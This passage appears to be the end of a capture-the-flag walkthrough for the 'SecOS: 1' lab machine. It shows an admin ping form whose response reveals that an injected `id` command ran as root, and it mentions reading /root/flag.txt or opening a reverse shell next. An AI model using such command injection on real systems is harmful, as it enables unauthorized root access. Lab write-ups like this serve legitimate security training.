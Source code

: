 ```bash
  </head>

  <body role="document">

    <!-- Fixed navbar -->
    <div class="navbar navbar-inverse navbar-fixed-top" role="navigation">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle" data-toggle="collapse" data-target=".navbar-collapse">
            <span class="sr-only">Toggle navigation</span>
          </button>
          <a class="navbar-brand" href="/">Internal admin tools</a>
        </div>
        <div class="navbar-collapse collapse">
          <ul class="nav navbar-nav">
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </div>

    <div class="container">
      <form class="form-signin" action="/" method="POST">
        <h4 class="form-signin-heading">Enter the IP you want to ping</h4>
        <input type="text" class="input-block-level" placeholder="127.0.0.1" name="ip"><br />
        <button class="btn btn-large btn-primary" type="submit">Ping !</button>
      </form>

        
        <div class="panel panel-default">
            <div class="panel-heading">
                <h3 class="panel-title">Ping result</h3>
            </div>
            <div class="panel-body">PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
uid=0(root) gid=0(root) groups=0(root)
</div>
        </div>
        

    </div> <!-- /container -->

  </body>
</html>
```

you can see from the result that our `id` command worked and it shows `root` id.

now we can print the content of `/root/flag.txt` or gain a reverse shell and cat the content.

This is how you can root the `SecOS: 1` machine :)
